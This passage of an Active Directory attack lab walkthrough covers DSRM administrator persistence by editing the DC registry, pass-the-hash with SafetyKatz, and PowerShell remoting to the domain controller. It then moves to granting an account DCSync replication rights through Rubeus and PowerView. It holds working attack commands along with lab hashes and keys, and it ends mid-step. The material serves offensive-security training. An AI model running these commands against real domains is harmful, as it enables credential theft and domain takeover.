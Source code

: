 ```
```
- The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:
```
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```
- Now on the student VM, we can use Pass-The-Hash (not OverPass-The-Hash) for the DSRM administrator:
```
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"
```
- From the new procees, we can now access dcorp-dc. Note that we are using PowerShell Remoting with IP address and Authentication - 'NegotiateWithImplicitCredential' as we are using NTLM authentication. So, we must modify TrustedHosts for the student VM. Run the below command from an elevated PowerShell session:
```
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1
```
- Now, run the commands below to access the DC:
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential

$env:username
```


---


# Learning Objective - 12

#### Flag - Attack that can be executed with Replication rights (no DA privileges required)
- We can check if studentx has replication rights using the following commands:
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\PowerView.ps1

Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```
- If the studentx does not have replication rights, let's add the rights. Start a process as Domain Administrator by running the below command from an elevated command prompt:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Run the below commands in the new process. Remember to change studentx to your user:
```
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat

. C:\AD\Tools\PowerView.ps1

Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
- Let's check for the rights once again from a normal shell: